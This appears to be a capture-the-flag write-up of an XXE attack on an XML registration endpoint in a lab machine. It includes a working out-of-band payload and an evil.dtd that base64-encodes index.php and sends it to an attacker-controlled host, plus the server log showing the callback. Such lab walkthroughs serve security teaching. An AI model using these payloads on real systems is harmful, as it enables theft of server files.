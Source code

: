 # Entry point

Example of an xml file that is passed to backend
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>
```

We can check for XXE vuln by declaring the following entity inside the ```<?xml>``` and hosting an http server
```
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "http://10.10.16.8"> 
%xxe;
]>
```
Attacker machine
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.192 - - [12/May/2023 12:35:19] "GET / HTTP/1.1" 200 -
```

# Exploitation

we can host a malicious evil.dtd that exfiltrates file contents
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.8/evil.dtd">%xxe;]>>
```
```
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=index.php'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.16.8/?exfil=%file;'>">
%eval;
%exfiltrate;
```
